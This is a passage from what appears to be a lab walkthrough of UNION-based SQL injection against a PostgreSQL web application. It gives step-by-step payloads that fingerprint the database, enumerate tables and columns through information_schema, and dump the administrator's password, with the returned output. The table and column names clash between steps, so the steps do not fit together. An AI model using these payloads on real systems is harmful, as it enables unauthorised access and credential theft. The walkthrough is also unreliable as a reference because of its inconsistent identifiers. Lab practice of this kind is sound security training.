






# Listing the database contents on non-Oracle databases.

**both column 1 and 2 contain data type string.**

**STEP #3**

Query the database to retrieve database type.

```text
' UNION SELECT version(), NULL--
```



**It returns:**

```text
PostgreSQL 11.12 (Debian 11.12–1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0–18+deb9u1) 6.3.0 20170516, 64-bit
```

**Database type: PostgreSQL**

**STEP #4**

Determine the table names.



```text
' UNION SELECT table_name, NULL FROM information_schema.tables
```



Let’s search for a table that contains usernames and passwords.



There is a table named `users_wfixez`** **this might be the table we are looking for. So let’s try retrieving columns of that table.

**STEP #5**

Determine the column names of the table `users_wfixez`

```text
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_wfixez'--
```



**There are two columns in the table **`users_hwlzhs`**.**

`username_wbdvqp`

`password_zfxnbv`

**STEP #6**

Retrieve the administrator’s password from the database.

```text
'+UNION+SELECT+password_xvbkii,username_wwmyan+FROM+users_wfixez--
```



|  |  |
|---|---|
| 9kn123cwvo54vzhicsns | administrator |

Use the administrator’s password to gain administrator’s access to the web application.
